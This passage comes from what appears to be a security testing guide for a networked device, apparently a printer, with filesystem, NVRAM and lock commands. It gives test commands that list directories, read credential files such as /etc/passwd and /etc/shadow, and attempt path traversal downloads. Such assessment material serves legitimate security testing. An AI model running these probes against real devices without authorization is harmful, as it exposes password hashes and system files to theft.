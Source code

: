 **Commands to Test:**
- File system commands (ls, upload, download)
- Security features (lock, unlock)
- NVRAM access (nvram dump)
- Network information (network)

---

## 🔬 Vulnerability Assessment

### Test 1: Filesystem Access

**Objective**: Determine if filesystem is accessible

```bash
# Test basic file listing
> ls
> ls /
> ls /etc

# Try common sensitive paths
> ls /etc/passwd
> ls /etc/shadow
> ls /rw/var/sys/passwd
> ls /webServer
```

**Vulnerable if:**
- ✅ Can list directories
- ✅ Can read sensitive files
- ✅ No authentication required
- ✅ No access restrictions

**Risk Level**: 🔴 HIGH

---

### Test 2: Path Traversal

**Objective**: Test for directory traversal vulnerabilities

```bash
# Test traversal patterns
> cd ../../
> ls
> cd ../../../
> ls

# Try volume-based traversal
> ls 0:/../../../etc/passwd
> ls 1:/../../etc/shadow

# Test with download
> download ../../../etc/passwd
> download ../../rw/var/sys/passwd
```
